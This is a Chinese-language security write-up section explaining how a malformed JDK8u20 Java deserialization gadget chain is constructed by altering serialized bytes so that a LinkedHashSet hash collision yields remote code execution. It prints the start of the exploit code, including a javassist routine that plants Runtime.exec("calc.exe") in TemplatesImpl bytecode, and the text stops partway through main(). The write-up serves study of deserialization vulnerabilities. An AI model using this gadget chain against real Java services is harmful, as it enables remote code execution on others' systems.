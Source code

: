 ## exp2
这个exp2来自feihong师傅，通过正常反序列化后对字节码进行细微地调整来构造畸形的JDK8u20链，没有利用成员抛弃机制，也比前面的exp1稍微好理解一点
- 参考文章在[以一种更简单的方式构造JRE8u20 Gadget](https://xz.aliyun.com/t/8277)
- 完整源码在[feihong-cs/jre8u20_gadget](https://github.com/feihong-cs/jre8u20_gadget)
这里没有利用成员抛弃机制，而是利用到了LinkedHashSet反序列化时会一一反序列化map中对象的机制，先将`BeanContextSupport`放在最前面，让其产生非法的`AnnotationInvocationHandler`对象的newHandle，后续再正常地执行JDK7u21，整个链的构造逻辑大概如下:
![](https://gitee.com/guuest/images/raw/master/img/20211202092756.png)
> 在进行序列化的时候，向序列化流中写入了`4`个对象，但是通过修改序列化中的一些特殊的`byte`，构造了一个我们想要的序列化流。在反序列化的时候，`LinkedHashSet`读到的`size`为`3`,在反序列化第一个对象`BeanContextSupport`的时候，会进入到`BeanContextSupport`的`readChildren`逻辑，成功将`AnnotationInvocationHander`进行了还原（虽然`AnnotationInvocationHander`在反序列化的时候会抛出异常，但是`BeanContextSupport`捕捉了异常）。随后`LinkedHashSet`在反序列化第二个和三个元素的时候，会发生哈希碰撞，从而导致`RCE`。

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.beans.beancontext.BeanContextSupport;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.HashSet;
import java.util.LinkedHashSet;
import java.util.Map;


public class jdk8u20EXP {
    public static TemplatesImpl generateEvilTemplates() throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        // 创建 static 代码块，并插入代码
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 转换为bytes
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        // 进入 defineTransletClasses() 方法需要的条件
        setFieldValue(templates, "_name", "name" + System.nanoTime());
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());


        return templates;
    }

    public static void main(String[] args) throws Exception {
        // jdk 7u21
        TemplatesImpl templates = generateEvilTemplates();
        HashMap map = new HashMap();
```